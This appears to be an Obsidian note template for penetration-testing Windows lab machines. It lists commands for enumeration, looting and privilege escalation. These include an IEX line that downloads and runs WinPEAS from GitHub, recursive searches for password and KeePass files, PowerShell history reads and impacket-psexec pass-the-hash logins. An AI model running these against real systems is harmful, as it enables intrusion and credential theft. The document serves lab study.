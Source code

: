 #show #windows
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_A_Win_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

# Enumeration

```bash
export hip="";nmap --top-ports 30 $hip
```

```bash
i="$hip";sudo nmap --osscan-guess -A -p- $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html && sudo nmap -sUV --top-ports 100 $i -oN 0_udp_top100.txt
```

> Then, create services templates.

# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `type C:\Users\Administrator\Desktop\proof.txt`
	
##### Users
```powershell
Get-LocalUser
```
Alternative: `net user`
##### Network
```powershell
ipconfig /all; route print; netstat -ano; netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```

##### Interesting files
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -Include *password* -Include proof.txt -Include local.txt -Include sysprep.inf -Include Unattended.xml -File -Recurse -ErrorAction SilentlyContinue; Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue; Get-History; (Get-PSReadlineOption).HistorySavePath | cat - ; 
```
	
##### Home folder
```powershell
Get-ChildItem -Recurse -Path C:\Users\ | select Parent,Name
```
	
Alternative: `dir /B /S /A-D`
##### Advanced
Mounted Volumes: `mountvol`
Devices: `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer`
Drivers: `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"`
Shadow Copy: `vssadmin list shadows`, `mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\`
# PrivEsc
##### Find Working Dir for attack
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	
##### WinPEAS
```bash
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1'); ./linpeash.ps1 -a -r | tee linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`

> I still have to run WinPEAS once and check what additional commands I need to integrate from [[2_loot-privEsc_Windows_Manually]]

##### Windows Exploit Suggester - Next Generation
On target, execute `systeminfo > systeminfo.txt` and transfer file. On kali, do
```bash
wes --muc-lookup systeminfo.txt
```

Consider [[3_dllHijacking_guide]]

Ways to login as another user:
- `impacket-psexec '$user:$password@$hip'` oder `impacket-psexec -hashes 00000000000000000000000000000000:$ntlm_hash '$user@$hip'`
- If we have access to the GUI -> `RunAs /user:$user cmd`
- User is in group _Remote Desktop Users_ -> RDP
- User is in group _Remote Management Users_ -> WinRM (Better use [evil-winrm](https://github.com/Hackplayers/evil-winrm) from non-interactive shells)
- User has _Log on as a batch job_ right -> Schedule task to execute a program of our choice as this user
- User has active session -> Use PsExec (SysInternals)
